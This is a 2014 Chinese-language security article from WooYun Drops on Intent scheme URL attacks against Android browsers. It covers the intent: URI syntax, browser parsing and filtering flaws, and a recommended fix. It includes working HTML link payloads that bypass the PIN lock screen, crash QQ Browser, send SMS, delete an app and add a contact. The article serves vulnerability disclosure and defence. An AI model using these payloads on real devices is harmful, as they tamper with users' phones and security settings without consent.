



# Intent scheme URL attack

2014/08/29 12:19 | [瘦蛟舞](http://drops.wooyun.org/author/瘦蛟舞 "由 瘦蛟舞 发布")   | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章")  | 占个座先  | 捐赠作者

## 0x01 Android Intents with Chrome

* * *

Android 有一个很少人知道的特性可以通过 web 页面发送 intent 来启动 apps。以前通过网页启动 app 是通过设置 iframe 的 src 属性，例如：

```
<iframe src="paulsawesomeapp://page1"> </iframe> 
```

此方法适用 version 18 或者更早版本。其他 android 浏览器也适用。 这个功能在安卓 chrome 浏览器 version 25 之后版本发生了改变。不能在通过设置 iframe 标签的 src 属性来启动 app 了。取而代之的是你应该通过自定义 scheme 实现用户手势启动 app 或者使用本文描述的“intent:”语法。

**1.1 基本语法**

“最佳实践”是构造一个 intent 插入网页中使用户能够登录 app。这为您提供了更多的灵活性在控制应用程序是如何启动，包括传通过[Intent Extras](http://developer.android.com/guide/components/intents-filters.html#extras)传递额外信息。 intent-based URI 基本语法如下：

```
intent:
   HOST/URI-path // Optional host
   #Intent;
      package=[string];
      action=[string];
      category=[string];
      component=[string];
      scheme=[string];
   end; 
```

语法细节见源码[Android source](https://code.google.com/p/android-source-browsing/source/browse/core/java/android/content/Intent.java?repo=platform--frameworks--base#6514)





**1.2 简单举例**

例子是一个 intent 登陆应用“Zxing barcode scanner”，语法如下：

```
intent:
   //scan/
   #Intent;
      package=com.google.zxing.client.android;
      scheme=zxing;
   end; 
```

设置 a 标签发 href 属性：

```
<a href="intent://scan/#Intent;scheme=zxing;package=com.google.zxing.client.android;end"> Take a QR code </a> 
```

Package 和 host 定义在配置文件中[Android Zxing Manifest](https://code.google.com/p/zxing/source/browse/trunk/android/AndroidManifest.xml#97)

**1.3 注意事项**

如果调用 activity 的 intent 包含[extras](http://developer.android.com/guide/components/intents-filters.html#extras)，同样可以包含这些。 Activity 只有配置了 category filter 才有被[android.intent.category.BROWSABLE](http://developer.android.com/reference/android/content/Intent.html#CATEGORY_BROWSABLE)通过这种方式在浏览器中打开，因为这样表明其是安全的。

**1.4 另请参阅**

• [Android Intents and Intent Filters](http://developer.android.com/guide/components/intents-filters.html)

• [Android Activities](http://developer.android.com/guide/components/activities.html)

## 0x02 利用思路

* * *

在 Android 上的 Intent-based 攻击很普遍，这种攻击轻则导致应用程序崩溃，重则可能演变提权漏洞。当然，通过静态特征匹配，Intent-Based 的恶意样本还是很容易被识别出来的。 然而最近出现了一种基于 Android Browser 的攻击手段——Intent Scheme URLs 攻击。这种攻击方式利用了浏览器保护措施的不足，通过浏览器作为桥梁间接实现 Intend-Based 攻击。相比于普通 Intend-Based 攻击，这种方式极具隐蔽性，而且由于恶意代码隐藏 WebPage 中，传统的特征匹配完全不起作用。除此之外，这种攻击还能直接访问跟浏览器自身的组件（无论是公开还是私有）和私有文件，比如 cookie 文件，进而导致用户机密信息的泄露。

## 0x03 1.3 Intent scheme URL 的用法

看一下 Intent Scheme URL 的用法。

```
<script>location.href = "intent:mydata#Intent;action=myaction;type=text/plain;end"</script> 
```

从用法上看，还是很好理解的，这里的代码等价于如下 Java 代码：

```
Intent intent = new Intent("myaction");  
intent.setData(Uri.parse("mydata"));  
intent.setType("text/plain"); 
```

再看一个例子：

```
intent://foobar/#Intent;action=myaction;type=text/plain;S.xyz=123;i.abc=678;end 
```

上面的语句，等价于如下 Java 代码：

```
Intent intent = new Intent("myaction");  
intent.setData(Uri.pase("//foobar/"));  
intent.putExtra("xyz", "123");  
intent.putExtra("abc", 678); 
```

其中 S 代表 String 类型的 key-value，i 代表 int 类型的 key-value。 源码中提供了 Intent.parseUri(String uri)静态方法，通过这个方法可以直接解析 uri，如果想更一步了解其中的语法，可以查看官方源码。

## 0x04 Intent scheme URI 的解析及过滤

* * *

如果浏览器支持 Intent Scheme URI 语法，一般会分三个步骤进行处理：

> 1.  利用 Intent.parseUri 解析 uri，获取原始的 intent 对象；
> 2.  对 intent 对象设置过滤规则，不同的浏览器有不同的策略，后面会详细介绍；
> 3.  通过 Context.startActivityIfNeeded 或者 Context.startActivity 发送 intent； 其中步骤 2 起关键作用，过滤规则缺失或者存在缺陷都会导致 Intent Schem URL 攻击。

关键函数

```
Intent.parseUri() 
```

绕过

```
Intent.setComponent(null); 
```

使用 sel;

## 0x05 乌云案例

* * *

[WooYun: qq 浏览器 IntentScheme 处理不当](http://www.wooyun.org/bugs/wooyun-2014-073875)

[WooYun: 傲游云浏览器远程隐私泄露漏洞（需要一定条件）](http://www.wooyun.org/bugs/wooyun-2014-067798)

某浏览器对此支持非常好

```
<a href="intent:#Intent;action=android.settings.SETTINGS;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;end">
   设置绕过 Pin 码（android 3.0-4.3）
</a> 
```


```
<a href="intent:#Intent;component=com.tencent.mtt/com.tencent.mtt.debug.DbgMemWatch;end">
    qq 浏览器崩溃
</a> 
```


```
<a href="intent:http://drops.wooyun.org/webview.html#Intent;component=com.android.browser/com.android.browser.BrowserActivity;end">
    打开原生浏览器
</a> 
```



* * *

```
<a href="intent:smsto:10000#Intent;action=android.intent.action.SENDTO;end">
   发送短信
</a><br> 
```

* * *

```
<a href="intent:#Intent;action=android.media.action.STILL_IMAGE_CAMERA;end">
   打开相机
</a><br> 
```

* * *

```
<a href="intent:package:org.wooyun.hiwooyun#Intent;action=android.intent.action.DELETE;end">
   删除应用
</a><br> 
```

* * *

```
<a href="intent:#Intent;action=android.intent.action.INSERT_OR_EDIT;S.name=magic;S.phone=+8610000;i.phone_type=2;type=vnd.android.cursor.item/person;end">
    添加联系人
</a><br> 
```

## 0x06 修复

* * *

通过以上漏洞的描述，总结得出一种相对比较安全的 Intent Filter 方法，代码如下：

```
// convert intent scheme URL to intent object  
Intent intent = Intent.parseUri(uri);  
// forbid launching activities without BROWSABLE category  
intent.addCategory("android.intent.category.BROWSABLE");  
// forbid explicit call  
intent.setComponent(null);  
// forbid intent with selector intent  
intent.setSelector(null);  
// start the activity by the intent  
context.startActivityIfNeeded(intent, -1); 
```

## 0x07 参考

* * *

[`www.mbsd.jp/Whitepaper/IntentScheme.pdf`](http://www.mbsd.jp/Whitepaper/IntentScheme.pdf)

[`blog.csdn.net/l173864930/article/details/36951805`](http://blog.csdn.net/l173864930/article/details/36951805)

版权声明：未经授权禁止转载 [瘦蛟舞](http://drops.wooyun.org/author/瘦蛟舞 "由 瘦蛟舞 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [Samsung S Voice attack](http://drops.wooyun.org/tips/2736)
*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)
*   [Android uncovers master-key 漏洞分析](http://drops.wooyun.org/papers/219)
*   [一只 android 短信控制马的简单分析](http://drops.wooyun.org/papers/3030)
*   [XDS: Cross-Device Scripting Attacks](http://drops.wooyun.org/papers/1472)
*   [Android Adobe Reader 任意代码执行分析(附 POC)](http://drops.wooyun.org/papers/1440)